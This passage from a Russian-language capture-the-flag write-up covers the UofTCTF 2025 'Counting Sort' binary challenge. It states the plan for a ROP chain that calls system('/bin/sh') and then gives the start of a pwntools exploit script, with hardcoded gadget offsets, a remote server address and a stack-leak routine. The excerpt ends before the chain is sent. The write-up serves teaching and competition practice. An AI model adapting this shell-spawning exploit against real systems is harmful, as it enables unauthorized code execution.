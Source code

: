 Теперь у нас есть все примитивы чтобы писать на стек любые байты. Запишем ROP-цепочку для вызова `system("/bin/sh")` и запустим наш скрипт.

![](/assets/UofTCTF-Sort/Pasted%20image%2020250114093337.png)

Полный код эксплоита представлен ниже или на [нашем гитхабе](https://github.com/splodev/writeups/tree/main/CTFs/UofTCTF_2025/Counting_Sort).

```python
import pwn

pwn.context.terminal = ['tmux', 'splitw', '-h']

r = pwn.remote('34.170.104.126',5000)

pop_rdi_ret = 0x2a873 # : pop rdi; ret; 
system = 0x58740 # system
binsh = 0x1cb42f # /bin/sh\x00 string offset

def leak_stack(): 
    payload = [-15] + [0x18] * (0x100 - 0xbc + 0xa8)
    payload = [x & 0xFF for x in payload]

    pwn.sleep(0.5)
    r.send(bytes(payload))

    leak = b''
    for i in range(100000):
        part = r.recv(1024, timeout = 0.5)
        leak += part

        if len(part) == 0:
            break

    buffer = []

    for i in range(256):
        buffer.append(leak.count(i))

    data = bytes(buffer)
    return data

```